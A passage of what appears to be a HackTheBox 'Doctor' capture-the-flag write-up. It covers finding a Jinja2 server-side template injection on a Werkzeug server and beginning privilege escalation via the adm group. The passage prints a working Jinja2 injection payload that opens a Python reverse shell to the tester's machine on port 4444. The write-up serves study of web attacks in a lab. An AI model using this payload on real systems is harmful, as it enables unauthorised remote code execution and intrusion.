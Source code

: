 Since the graphic says Jinja2 over Twig, I'll start by seeing if I can get anywhere with it.

## jinja2 Framework

On this link [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---basic-injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---basic-injection){:target="_blank"} you can find the following documentation:

![jinja2](../../../../assets/images/hackthebox/doctor/13_jinja2_documentation.png)

This means that there should be a Python web server running in the background. I verify this again.

The data from the header returns that it is a ``Werkzeug/1.0.1`` webserver, that means there is a Python webserver running.
This is one more indication that the exploit could work.

![python verification](../../../../assets/images/hackthebox/doctor/14_python_verification.png)

Here [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---remote-code-execution](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---remote-code-execution){:target="_blank"} you can directly find a tutorial for
remote code execution. The payload on the page has to be adapted, otherwise it would just output the content of a flag.txt. But this is not the goal,
I want to create a reverse shell.

For this I start a listener on port 4444 and insert the following code as title in a new message.

{% raw %}
```py
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.9\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```
{% endraw %}

Now I update the /archive page and it sends the reverse shell to my system.

So I am now as the user web on the system.

![shell](../../../../assets/images/hackthebox/doctor/15_shell.png)

# privilege escalation

On a new system, I always look first to see if I have access to anything special or if anything else is particularly noticeable.
The user ``web`` is not in the sudo group but in the group ``adm`` and this is quite unusual. Since also in the ``/etc/crontab`` there is nothing
special to find. I first search for files to which the group adm has access in some form.

For this I use the command:
